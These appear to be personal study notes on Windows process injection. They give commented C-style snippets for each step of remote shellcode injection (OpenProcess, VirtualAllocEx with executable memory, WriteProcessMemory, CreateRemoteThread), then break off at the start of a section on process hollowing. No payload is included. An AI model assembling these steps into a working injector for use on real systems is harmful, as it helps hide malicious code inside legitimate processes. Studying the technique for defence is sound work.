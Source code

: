
### Windows API

**Shellcode Injection**

1. Open a target process with all access rights.
```C#
processHandle = OpenProcess(
	PROCESS_ALL_ACCESS, // Defines access rights
	FALSE, // Target handle will not be inhereted
	DWORD(atoi(argv[1])) // Local process supplied by command-line arguments 
);
```

2. Allocate target process memory for the shellcode.
```C#
remoteBuffer = VirtualAllocEx(
	processHandle, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```
3. Write shellcode to allocated memory in the target process.
```C#
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL
);
```
4. Execute the shellcode using a remote thread.
```C#
remoteThread = CreateRemoteThread(
	processHandle, // Opened target process
	NULL, 
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Ran immediately after creation
	NULL
);
```

![[Pasted image 20240511222905.png]]


### Process Hollowing

Process hollowing is a technique used in malware and software exploitation to hide malicious activity by injecting code into a legitimate process and replacing its original code with malicious instructions. Here's how it typically works:
